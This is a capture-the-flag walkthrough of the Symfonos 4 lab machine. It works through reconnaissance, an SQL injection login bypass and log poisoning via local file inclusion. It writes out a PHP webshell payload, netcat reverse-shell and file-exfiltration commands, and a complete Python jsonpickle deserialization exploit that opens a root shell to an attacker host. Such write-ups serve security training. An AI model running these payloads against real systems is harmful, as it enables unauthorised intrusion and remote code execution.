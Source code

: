 SYMFONOS 4

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1 [Discovery host]()
	1.2 [Service Enum]()
	1.3 [Web]()
		1.3,1 [Gobuster enum web content]()
		1.3.2 [Downloading and reading .log files]()

2. [Exploitation]()
	2.1 [Bypass login sqli]()
	2.2 [LFI (local file inclusion)  - using bash to generate payloads]()
		2.2.1 [Reverse shell]()

3. [Post exploitation]()
	3.1 [Remote forwarding with ssh]()
	3.2 [Web 8080]()
		3.2.1 [Gobuster enum web content]()
		3.2.2 [python Pickle without exploit to get root]()
		3.2.3 [Python Pickle with coding exploit to get root]()

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](../../../../../../../_resources/349aeda966314e6f8d09bcfcbd4a1774.png)
Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](../../../../../../../_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`
![0975e9ea8b8186843034eaa7daa54ebf.png](../../../../../../../_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](../../../../../../../_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](../../../../../../../_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](../../../../../../../_resources/923829f107e945e6b7a41707a66f6ac7.png)
Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](../../../../../../../_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](../../../../../../../_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders
First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](../../../../../../../_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](../../../../../../../_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](../../../../../../../_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](../../../../../../../_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=../../../../../../../../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](../../../../../../../_resources/fe456d74e92b491db68c287f7dbedab2.png)
Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](../../../../../../../_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
We can upload LinEnum on the target with python3 and the lib http.server:
![4d63d0022347ed21c3ba7df24c2522c0.png](../../../../../../../_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](../../../../../../../_resources/ab77bd1365544d76b1c000435b81d303.png)
`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](../../../../../../../_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example
We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](../../../../../../../_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](../../../../../../../_resources/5a338a152d2b442590792a507f02c051.png)
We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](../../../../../../../_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](../../../../../../../_resources/454c47d973674ee5a1c0fd8caca828c6.png)
This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](../../../../../../../_resources/48add1eec8404568aa483028b4b3ffb2.png)
Needs encode to base64:
![1581ff27f0379884666328b034bca78e.png](../../../../../../../_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:
![9ff866356191b6a5f8b5598ea0661897.png](../../../../../../../_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:
![7f985f49d2994f98f434e810c1788f65.png](../../../../../../../_resources/24c617101aa14ecfbedb88e5539534f3.png)
 

